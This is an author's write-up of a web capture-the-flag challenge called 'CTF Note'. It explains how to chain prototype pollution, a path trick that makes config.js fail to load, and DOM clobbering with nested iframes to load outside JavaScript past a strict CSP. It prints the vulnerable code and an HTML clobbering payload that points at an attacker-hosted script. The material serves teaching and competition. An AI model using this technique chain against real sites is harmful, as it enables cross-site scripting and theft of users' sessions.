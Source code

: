 # CTF Note

- Category: Web
- Solves: 0 / 95 (scores >= 1), 55 (scores > 1)

## Solution

### TL;DR
1. Use `category` to prototype pollution that markdown.js library: write arbitrary HTML
2. Use `/whatever/..%2f` to make `config.js` 404
3. DOM Clobbering: create a nyanCat plugin yourself, load arbitrary js
4. XSS!

### Detailed Solution

In short, this is a website that can send writeup, in which we can set for each topic: category, name, writeup content, and the writeup part uses [markdown.js](https://github.com/evilstreak/markdown- js) of this library render.

The first problem you will find is that although the front end limits the value of the `category` part, the back end does not verify it and can write any value. What's wrong with that? `app.js:65` has this one-liner:
````javascript
WriteUps[writeup.category][writeup.challenge] = writeup.content;
````
Then if we set the `category` of a question to `__proto__`, then prototype pollution can be carried out smoothly.

After knowing this, you should be able to find out very quickly: once the prototype of `Object` is successfully polluted, each element generated by markdown render will be added with the attribute of `[challenge]=[content]`, and `challenge` (that is, the attribute name) part is not escaped by HTML, and can be written in any HTML.

However, due to strict CSP restrictions, we cannot currently do XSS
````
Content-Security-Policy:
default-src 'none'; base-uri 'none'; img-src 'self'; style-src 'self'; connect-src 'self'; script-src 'strict-dynamic' 'nonce-[hex]'
````

What is worth mentioning here is the meaning of `script-src 'strict-dynamic' 'nonce-{hex}'`:
- nonce-{hex} restricts the loading of only JavaScript with script elements with a specific nonce.
- 'strict-dynamic' can refer to [CSP Reference](https://content-security-policy.com/strict-dynamic/); in this scenario, it will allow script elements with nonce to be inserted into any script element and execute its js.

And the `loadPlugin` function in `app.js` in this question just meets this condition and can load script
````javascript
function loadPlugin(pluginName) {
    if (!(pluginName in CONFIG.plugins)) return;
    let script = document.createElement('script');
    script.src = CONFIG.plugins[pluginName];
    document.body.appendChild(script);
}
````
But as we can see, it passes in `pluginName` and reads the js path from `CONFIG.plugins[pluginName]`. Therefore, if you want to load your own js arbitrarily, you must first control `CONFIG`; and `CONFIG` is loaded from `config.js`:

````javascript
const CONFIG = {
    productName: "CTF Note",
    version: "v0.0.87",
    plugins: {
        nyanCat: '/plugins/nyan.js',
        xssSimulator: '/plugins/xss.js'
    }
};
````

At this point we can go back and see what writing arbitrary HTML can help us do!

There is a technique called DOM clobbering (for various techniques, please refer to [PortSwigger's article](https://portswigger.net/research/dom-clobbering-strikes-back)), which is a way to hijack the values ​​in js by manipulating the DOM ( Basically a global variable).

Obviously, what we want to control is `CONFIG`, but the problem is that direct DOM clobbering can't cover the existing variables, what should I do? Simple, just get it out of the way!

In fact, it should be found that the writing method of `config.js` in HTML is a bit different from other js and css. Everyone else is an absolute path under `/static`, but `config.js` is a relative path. .
```html
<script nonce="nonce" src="config.js"></script>
````

We can use this to make config.js 404, how to do it? Since nginx and browsers have different ways of parsing paths, a path that can be read by nginx but not by browsers can be constructed:
````
http://ctf-note.splitline.tw:9527/meow/..%2f
````
- For nginx, it will return to the previous directory because of `..%2f`, and successfully display the content of /.
- For browsers, `..%2f` is just a file name in the `meow` directory, so it will read `/meow/config.js` as a relative path.

As a result, config.js is 404 not found, and `CONFIG` disappears smoothly.

Next, back to DOM clobbering, we can use the iframe + srcdoc method to construct `CONFIG.plugins.nyanCat`:

```html
<iframe name=CONFIG srcdoc="
    <iframe id=CONFIG name=plugins
        srcdoc='<a id=nyanCat href=http://url/to/your.js>test</a>'>
"></iframe>
````

So far, we have been able to successfully insert our own js and achieve full XSS! The actual attack script can refer to `solution.py`.


## Postscript

Personally, I think this question is my favorite among the questions I asked in this CTF. When I first thought of combining prototype pollution and DOM clobbering, I came up with this question. In fact, it took a lot of time to design the question scene. . Having said that, this is also my first official XSS question. It's really tiring. The front-end, back-end and xss bot all have to be carefully designed. If it is a pure back-end question, the front-end can be written casually. XD

I feel that many people are missing the last step. They are stuck and don’t know how to cover config.js. In the end, no one has solved it. It’s still a pity. I originally hoped that one or two teams could solve it. XD